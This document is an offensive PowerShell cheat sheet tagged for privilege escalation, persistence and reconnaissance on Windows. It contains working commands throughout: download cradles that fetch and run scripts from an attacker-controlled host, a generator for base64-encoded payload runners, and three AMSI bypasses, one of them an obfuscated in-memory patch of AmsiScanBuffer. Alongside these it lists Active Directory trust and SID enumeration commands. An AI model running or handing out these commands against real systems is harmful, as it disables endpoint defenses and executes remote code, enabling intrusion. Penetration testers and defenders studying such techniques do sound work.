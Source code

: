 # powershell

#plateform/windows #target/local #cat/PRIVESC #cat/PERSIST #cat/RECON #tag/powershell 

## Download cradle
```powershell
(new-object system.net.webclient).downloadstring('http://<ip>/<script>') | IEX
```

## Get file in trash
```powershell
Get-ADObject -filter 'isDeleted -eq $true -and name -ne "Deleted Objects"' -includeDeletedObjects -property *
```

## Get process
```powershell
Get-Process
```

## Get Proxy
```powershell
[System.Net.WebRequest]::DefaultWebProxy.GetProxy("http://<ip>/<url>")
```

## Get language mode
```powershell
$ExecutionContext.SessionState.LanguageMode
```

## Bypass AMSI with _amsiContext_ (powershell only)
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1)
```

## Bypass AMSI with _AmsiInitFailed_ (powershell only)
```powershell
$a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*InitFailed") {$f=$e}};$f.SetValue($null,$true)
```

## Bypass AMSI by patching (work for .NET binaries too)

more infos here : https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/

```powershell
$ZQCUW = @"
using System;
using System.Runtime.InteropServices;
public class ZQCUW {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@
Add-Type $ZQCUW
$BBWHVWQ = [ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))")
$p = 0
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
```

## Verify PPL
```powershell
Get-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Control\Lsa -Name "RunAsPPL"
```

## Verify application whitelisting
```powershell
Get-ChildItem -Path HKLM:\SOFTWARE\Policies\Microsoft\Windows\SrpV2\Exe
```

## show forest trust
```powershell
([System.DirectoryServices.ActiveDirectory.Forest]::GetCurrentForest()).GetAllTrustRelationships()
```

## Get domain trust
```powershell
Get-DomainTrust -Domain <domain>
```

## Get domain SID
```powershell
Get-DomainSID -domain <sid>
```

## hostrecon
https://github.com/dafthack/HostRecon

```
(new-object system.net.webclient).downloadstring('http://<lhost>/HostRecon.ps1') | IEX; Invoke-HostRecon
```

## privesccheck
https://github.com/itm4n/PrivescCheck

```powershell
(new-object system.net.webclient).downloadstring('http://<lhost>/PrivescCheck.ps1') | IEX; Invoke-PrivescCheck
```

## powershell view assemblies
```powershell
[appdomain]::currentdomain.getassemblies() | Sort-Object -Property fullname | Format-Table fullname
```

## powershell get proxy address
```powershell
$proxyAddr=(Get-ItemProperty -Path "HKU:$start\Software\Microsoft\Windows\CurrentVersion\Internet Settings\").ProxyServer
```

## powershell set proxy
```powershell
[system.net.webrequest]::DefaultWebProxy = new-object System.Net.WebProxy("http://<proxaddress|$proxyAddr>")
```

## powershell - generate base64 encoded payload download runner
#plateform/linux #target/local #cat/PRIVESC #cat/PERSIST #cat/RECON #tag/powershell 

```powershell
pwsh -Command '$text = "(New-Object System.Net.WebClient).DownloadString(''http://<lhost>/<file>'') | IEX";$bytes = [System.Text.Encoding]::Unicode.GetBytes($text);$EncodedText = [Convert]::ToBase64String($bytes);$EncodedText'
```